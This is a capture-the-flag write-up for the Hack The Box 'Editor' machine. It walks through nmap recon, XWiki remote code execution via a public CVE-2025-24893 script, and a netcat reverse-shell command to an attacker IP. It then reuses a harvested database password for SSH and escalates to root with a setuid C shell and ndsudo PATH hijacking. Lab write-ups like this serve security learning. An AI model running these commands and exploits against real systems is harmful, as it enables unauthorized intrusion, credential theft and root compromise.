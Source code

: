 ```yaml
---
layout: default
title: Editor
---
```


### Recon

we start with `nmap`, using this command:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![nmap results](image.png)

First, we need to add `editor.htb` and `wiki.editor.htb` to our `/etc/hosts`:
```
10.10.11.80     editor.htb
10.10.11.80     wiki.editor.htb
```

### Get shell

We can see the version of the xwiki is `XWiki Debian 15.10.8`, and when googling for exploits we can see this github repo https://github.com/gunzf0x/CVE-2025-24893.

Let's download the script and try to get RCE, or in this case reverse shell:
```bash
curl https://raw.githubusercontent.com/gunzf0x/CVE-2025-24893/refs/heads/main/CVE-2025-24893.py -o CVE-2025-24893.py
python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.168 770 -e /bin/bash'
```

![reverse shell](image-1.png)

now let paste the regular commands, to make the shell more nice looking:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Achieve password

I started by searching for all config files, then i found 2 files, and one of them contained a password:
```bash
xwiki@editor:/usr/lib/xwiki$ find . -name "*.cfg*" 2>/dev/null
./WEB-INF/hibernate.cfg.xml
./WEB-INF/xwiki.cfg
xwiki@editor:/usr/lib/xwiki$ cat ./WEB-INF/xwiki.cfg | grep pass
# xwiki.superadminpassword=system
xwiki@editor:/usr/lib/xwiki$ cat ./WEB-INF/hibernate.cfg.xml | grep pass
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>

```
So, `theEd1t0rTeam99` is a password, hibernate is used to store credentials for databases.

![get password](image-2.png)

and these are the relevant lines from `hibernate.cfg.xml`:
```xml
<!-- Configuration for the default database.
         Comment out this section and uncomment other sections below if you want to use another database.
         Note that the database tables will be created automatically if they don't already exist.

         If you want the main wiki database to be different than "xwiki" (or the default schema for schema based
         engines) you will also have to set the property xwiki.db in xwiki.cfg file
    -->
    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property>
    <property name="hibernate.dbcp.poolPreparedStatements">true</property>
    <property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>

    <property name="hibernate.connection.charSet">UTF-8</property>
    <property name="hibernate.connection.useUnicode">true</property>
    <property name="hibernate.connection.characterEncoding">utf8</property>
```

we can try and use this password `theEd1t0rTeam99` to login to oliver's account, we saw earlier, using `ssh oliver@$target`:
```bash
oliver@editor:~$ cat user.txt 
a5ade4f32ae5587972bafe53e64f9fc8
```

![ssh to oliver](image-4.png)

### Privilege Escalation

We first start with `sudo -l`, but then we get:
```
Sorry, user oliver may not run sudo on editor.
```

Okay, let's search for setuid file that are owned by `root`, using this command, the `\4000` is like `+4000`, the way to check if file has this setuid bit on:
```bash
oliver@editor:~$ find / -user root -perm /4000 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

I asked chatGPT for any well known PE vulnerabilites, and he pointed to me att ndsudo. I found this repo https://github.com/dollarboysushil/CVE-2024-32019-Netdata-ndsudo-PATH-Vulnerability-Privilege-Escalation, followed the instructions to make `nvme` using this C code:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

I compiled in my local machine because there is no `gcc` on the remote machine, simply used `gcc nvme.c -o nvme`:

![compiling and uploading](image-5.png)

Then, in the remote machine i donwloaded the `nvme` file to `/tmp/nvme`, changed the `$PATH` variable:
```bash
export PATH=/tmp:$PATH
``` 

and just execute the vuln setuid binary:
```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

![get root flag](image-6.png)

**User Flag:*****`a5ade4f32ae5587972bafe53e64f9fc8`***

**Root Flag:*****`1965deafd9071debf5f12009232cf108`***
